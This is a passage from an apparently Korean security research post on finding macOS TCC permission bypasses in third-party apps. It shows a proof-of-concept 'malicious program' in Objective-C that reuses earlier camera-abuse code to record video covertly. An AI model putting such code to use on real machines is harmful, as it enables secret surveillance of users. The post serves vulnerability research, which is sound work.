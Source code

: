 	![34](/assets/img/2024-04-15-Methodology-for-discovering-TCC-Bypass-vulnerabilities-in-3rd-party-Applications.md/34.png)

2. 악성 프로그램 작성

위에서 작성한 카메라 권한 남용 코드와 동일하지만 DYLIB가 아니므로 생성자 대신 main 함수를 작성한다.


{% raw %}
```objective-c
// ... (위에서 설명한 카메라 권한 남용 코드와 동일)

void main(int argc, const char **argv) {
    VideoRecorder *videoRecorder = [[VideoRecorder alloc] init];

    [videoRecorder startRecording];
    [NSThread sleepForTimeInterval:3.0];
    [videoRecorder stopRecording];

    [[NSRunLoop currentRunLoop] runUntilDate:[NSDate dateWithTimeIntervalSinceNow:1.0]];
}
```
{% endraw %}
